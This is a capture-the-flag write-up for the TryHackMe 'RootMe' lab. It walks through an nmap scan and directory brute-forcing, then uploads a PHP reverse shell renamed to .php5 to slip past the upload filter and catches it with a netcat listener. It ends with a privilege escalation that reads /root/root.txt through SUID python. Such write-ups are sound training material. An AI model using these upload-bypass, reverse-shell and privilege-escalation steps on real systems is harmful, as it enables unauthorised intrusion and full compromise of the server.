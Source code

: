 ```yaml
---
layout: post
title: THM Rootme wrriteup
date: 2020-08-01T12:25:26.802Z
---
```

## TASK 2

1. start a nmap scan 

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-09 23:03 BST
Nmap scan report for 10.10.132.201
Host is up (0.60s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.62 seconds
```

the ports open are : 2

2. apache version is here `Apache httpd 2.4.29 ((Ubuntu))` so 2.4.29
3. service on port 22 is ssh
4. start a directory bruteforce tool, i used [dirsearch.py](https://github.com/maurosoria/dirsearch)
5. the hidden directories : 
6.

```bash
[11:27:22] 301 -  312B  - /css  ->  http://10.10.179.137/css/
[11:27:35] 200 -  616B  - /index.php
[11:27:35] 200 -  616B  - /index.php/login/
[11:27:36] 301 -  311B  - /js  ->  http://10.10.179.137/js/
[11:27:49] 301 -  314B  - /panel  ->  http://10.10.179.137/panel/
[11:27:49] 200 -  732B  - /panel/
[11:27:57] 403 -  278B  - /server-status
[11:27:57] 403 -  278B  - /server-status/
[11:28:06] 301 -  316B  - /uploads  ->  http://10.10.179.137/uploads/
[11:28:06] 200 -744B  - /uploads/
```

the hidden directory is /panel/ and the interesting one is uploads

# Task 3

1. download a php reverse shell from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the LHOST and the port

```bash
wget "https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php"
```

then rename it to bypass file upload restrictions into .php5

```bash
mv php-reverse-shell.php rev.php5
```

then upload it and start a netcat listener

```bash
nc -lvnp LPORT
```

and now open the rev shell from your browser by visiting http://$IP/uploads/rev.php5

and now you should have a reverse shell

to stabilize your shell run :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

and

```bash
python -c 'import os; os.system("/bin/bash")'
```

now get user.txt

```bash
cat /var/www/user.txt
THM{********************}
```

# Task 4 priv esc

1. after running

```bash
find / -user root -perm /4000
```

you'll see in the list also python that can be used to read files with higher permissions

answer : /usr/bin/python

3. get the root flag by simply running

```bash
python -c 'print(open("/root/root.txt").read())'
```